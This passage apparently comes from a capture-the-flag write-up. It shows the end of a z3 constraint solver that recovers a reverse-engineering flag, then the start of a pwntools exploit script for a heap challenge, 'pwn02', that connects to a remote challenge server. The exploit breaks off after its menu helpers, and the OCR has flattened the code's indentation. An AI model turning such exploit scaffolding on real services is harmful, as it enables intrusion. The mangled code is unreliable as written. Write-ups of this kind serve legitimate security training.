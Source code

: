 ```
    solver.add(flag[i]==i+1)
#添加逆向分析时得到的条件约束
solver.add(flag[9]+flag[14]==14)
solver.add(flag[8]&lt;=3)
for j in range(1,8):
for k in range(0,8):
if(k&gt;=j):
break
solver.add(flag[k]!=flag[j])
solver.add(flag[k+8]!=flag[j+8])
solver.add((flag[j]-flag[k])!=(flag[j+8]-flag[k+8]))
solver.add((flag[j]-flag[k])!=(flag[k+8]-flag[j+8]))
#这个检查应该是判断是否有解，有则输出flag，无则报错
if(solver.check()==sat):
m=solver.model()
s=[]
for i in range(16):
s.append(m[flag[i]].as_long())
    print(bytes(s))
else:
print('error')
t2=time.time()
print(t2-t1)

```

## Pwn

### <a class="reference-link" name="pwn02"></a>pwn02

```
from pwn import *
#context.log_level = 'debug'


IP = '39.100.87.24'
PORT = 8102
LOCAL = 0


if LOCAL:
sh = process('./pwn02')
else:
sh = remote(IP, PORT)




def debug(cmd=''):
gdb.attach(sh, cmd)
pause()




def malloc(idx, size, ctx):
sh.recvuntil('&gt; ')
sh.sendline('1 '+str(idx))
sh.sendline(str(size))
sh.sendline(ctx)


def free(idx):
```